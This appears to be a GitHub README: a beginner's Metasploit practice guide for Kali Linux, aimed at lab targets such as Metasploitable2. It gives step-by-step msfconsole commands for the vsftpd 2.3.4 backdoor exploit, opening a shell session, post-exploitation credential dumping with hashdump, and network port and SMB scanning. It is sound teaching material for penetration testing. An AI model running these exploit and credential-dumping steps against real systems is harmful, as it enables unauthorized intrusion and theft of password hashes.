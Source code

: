 
# 💣 Metasploit Practice Guide for Cybersecurity Analysts (Kali Linux)

> **⚠️ WARNING!!!**
> This guide is strictly for **educational and ethical hacking purposes**. Never attempt to exploit systems or networks without **explicit written permission**. Unauthorized access is **illegal** and may lead to **criminal charges**. Use only on your **own lab** or authorized testing environments (e.g., Metasploitable2, TryHackMe, Hack The Box).

---

## 🛠️ Prerequisites

- ✅ Kali Linux (with Metasploit pre-installed)
- ✅ Basic Linux terminal knowledge
- ✅ A vulnerable machine to practice on (e.g., Metasploitable2)
- ✅ VirtualBox or VMware for lab setup

---

## 🧪 Step-by-Step Metasploit Practice Guide

---

### 🔹 Step 1: Update Kali & Metasploit

```bash
sudo apt update && sudo apt upgrade -y
sudo msfupdate
````

---

### 🔹 Step 2: Launch Metasploit Console

```bash
msfconsole
```

Wait for the banner and console prompt:

```bash
msf6 >
```

---

### 🔹 Step 3: Search for a Module

```bash
search vsftpd
```

Example output:

```
exploit/unix/ftp/vsftpd_234_backdoor
```

---

### 🔹 Step 4: Select an Exploit Module

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

---

### 🔹 Step 5: Show Options

```bash
show options
```

You'll see required fields like:

* RHOSTS (Target IP)
* RPORT (Target Port)

---

### 🔹 Step 6: Set Target Options

```bash
set RHOSTS 192.168.1.100
set RPORT 21
```

(Replace with your lab IP)

---

### 🔹 Step 7: Set Payload (if needed)

```bash
set PAYLOAD cmd/unix/interact
```

Or just run:

```bash
exploit
```

---

### 🔹 Step 8: Gain a Shell

If successful, you’ll get a shell or session like:

```bash
[*] Command shell session 1 opened...
```

Use commands like:

```bash
whoami
uname -a
```

---

### 🔹 Step 9: Interact with a Session

```bash
sessions
sessions -i 1
```

---

### 🔹 Step 10: Post-Exploitation

```bash
sysinfo
getuid
hashdump
```

Explore available **post modules**:

```bash
search type:post
```

---

### 🔹 Step 11: Use Auxiliary Scanners

Example: Port scanning

```bash
use auxiliary/scanner/portscan/tcp
set RHOSTS 192.168.1.0/24
run
```

Or SMB version scanning:

```bash
use auxiliary/scanner/smb/smb_version
```

---

### 🔹 Step 12: Practice Exploiting Known Vulnerabilities

Good beginner targets:

* **Metasploitable2**
* **DVWA** (Damn Vulnerable Web App)
* **bWAPP**
* **TryHackMe Rooms**
* **Hack The Box retired machines**

---

## 📁 Pro Tips

* Use `tab` to autocomplete modules or commands.
* Use `info` after `use` to learn more about a module.
* Save sessions or logs with:

```bash
spool metasploit_output.txt
```

---

## 📚 Learning Resources

* [Metasploit Unleashed (OffSec)](https://www.offensive-security.com/metasploit-unleashed/)
* [TryHackMe Metasploit Room](https://tryhackme.com/room/metasploitintro)
* [Rapid7 Metasploit Docs](https://docs.rapid7.com/metasploit/)
* [Hack The Box](https://www.hackthebox.com/)

---

## ✅ Final Notes

* Practice consistently with **safe environments**.
* Document what you exploit, how, and what the outcomes were.
* Combine with other tools like **Nmap**, **John**, and **Burp Suite** for better context.

---

> ✍️ Maintained by: \groua
> 💼 Role: Cybersecurity Analyst | Ethical Hacker in Training



